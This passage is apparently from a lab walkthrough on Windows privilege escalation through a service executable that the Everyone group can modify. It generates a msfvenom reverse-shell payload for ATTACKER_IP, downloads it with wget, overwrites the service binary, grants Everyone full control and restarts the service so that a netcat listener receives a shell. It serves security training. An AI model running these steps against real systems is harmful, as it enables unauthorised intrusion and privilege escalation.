 SERVICE_NAME: windowsscheduler
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 0   IGNORE
        BINARY_PATH_NAME   : C:\PROGRA~2\SYSTEM~1\WService.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : System Scheduler Service
        DEPENDENCIES       :
        SERVICE_START_NAME : .\svcuser1
```
We can see that the service installed by the vulnerable software runs as svcuser1 and the executable associated with the service is in `C:\Progra~2\System~1\WService.exe`. We then proceed to check the permissions on the executable:
```
C:\Users\thm-unpriv>icacls C:\PROGRA~2\SYSTEM~1\WService.exe
C:\PROGRA~2\SYSTEM~1\WService.exe Everyone:(I)(M)
                                  NT AUTHORITY\SYSTEM:(I)(F)
                                  BUILTIN\Administrators:(I)(F)
                                  BUILTIN\Users:(I)(RX)
                                  APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                                  APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)

Successfully processed 1 files; Failed processing 0 files
```
And here we have something interesting. The Everyone group has modify permissions (M) on the service's executable. This means we can simply overwrite it with any payload of our preference, and the service will execute it with the privileges of the configured user account.

Let's generate an exe-service payload using msfvenom and serve it through a python webserver:
```
user@attackerpc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe

user@attackerpc$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
We can then pull the payload from Powershell with the following command:
```
wget http://ATTACKER_IP:8000/rev-svc.exe -O rev-svc.exe
```
Once the payload is in the Windows server, we proceed to replace the service executable with our payload. Since we need another user to execute our payload, we'll want to grant full permissions to the Everyone group as well:
```
C:\> cd C:\PROGRA~2\SYSTEM~1\

C:\PROGRA~2\SYSTEM~1> move WService.exe WService.exe.bkp
        1 file(s) moved.

C:\PROGRA~2\SYSTEM~1> move C:\Users\thm-unpriv\rev-svc.exe WService.exe
        1 file(s) moved.

C:\PROGRA~2\SYSTEM~1> icacls WService.exe /grant Everyone:F
        Successfully processed 1 files.
```
We start a reverse listener on our attacker machine: `user@attackerpc$ nc -lvp 4445` And finally, restart the service. While in a normal scenario, you would likely have to wait for a service restart, you have been assigned privileges to restart the service yourself to save you some time. Use the following commands from a cmd.exe command prompt: 
```
C:\> sc stop windowsscheduler
C:\> sc start windowsscheduler
```
Note: PowerShell has `sc` as an alias to `Set-Content`, therefore you need to use `sc.exe` in order to control services with PowerShell this way.

As a result, you'll get a reverse shell with svcusr1 privileges:
```